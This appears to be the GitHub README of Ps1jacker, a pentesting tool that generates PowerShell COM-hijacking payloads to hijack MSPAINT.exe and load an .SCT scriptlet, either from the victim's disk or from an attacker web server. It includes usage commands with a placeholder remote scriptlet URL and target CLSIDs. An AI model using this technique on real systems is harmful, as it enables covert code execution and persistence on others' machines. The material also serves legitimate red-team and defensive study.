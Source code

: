 # Ps1jacker
Ps1jacker is a tool for generating COM Hijacking payload.

![Ps1jacker screenshot](https://preview.ibb.co/hWmhD9/ps1jacker.png)

**WARNING: This tool is still in development - please report bugs!**

######  WHAT IS COM HIJACKING?
COM Hijacking is a method for an attacker to gain remote code execution or persistence on victims machine, by using legitimate Windows process'. 
The advantage of Ps1jacker is that it uses a method which allows the user to specify his/her script path on Web Server, which means there is no local
storage on victims machine involved in this process. 

######  DEFAULT METHOD [-hd]
The Default method will generate the payload for you without any of your user input. However, there are 2 precautions:
1. It will only work if you grab the file calc.SCT from examples directory and copy it to your victims machine exactly at `C:\\tools\\COM Testing\\`,
as the payload will be generated in a way, where it will expect the .SCT script to be located in that path.
2. This works only with using `MSPAINT.exe` (Paint). Meaning, victim has to open PAINT.exe in order for the payload to trigger.

Once you have done that, you can execute the powershell script on victims machine and it should generate all the registry entries for you.

######  CUSTOM METHOD [-p][-ch][-cf]
With the custom method you may specify your own .SCT script and decide whether:
1. Host it on your webserver: in this case you have to specify the path to the file on your server, eg. `http://<your_webserver_ip>/<your_sct_script>`
2. Host it on your victim's machine: in this case you specify the path where your .SCT script is residing on your victim's machine.
You also have to specify your own CLSID which you will hijack.
Same goes for the unique Fake CLSID. And remember, it has to be really unique, otherwise you will trigger an existing process in Windows instead of your
script.

######  DISCLAIMER: 
Please do not use this tool for illegal activities. This tools should be used by pentesters to ease the generation of payload for COM Hijacking technique.
If you intend to use this tool in presentations / demonstrations, please include the developers information.


######  TEST 1:
This will generate a default payload that will open Calculator instead of MSPAINT. Be sure to have calc.SCT file from Examples folder within C:\tools\COM Testing\ on victim machine. Otherwise this method wont work.

`python ./ps1jacker.py -hd`

######  TEST 2:
Hijacking MSPAINT.exe by specifing custom parameters.

`python ./ps1jacker.py -p "http://<web_server_ip>/<your_sct_file>" -ch {926749FA-2615-4987-8845-C33E65F2B957} -cf {00000001-0001-0001-0001-0000DEADBEEF}`


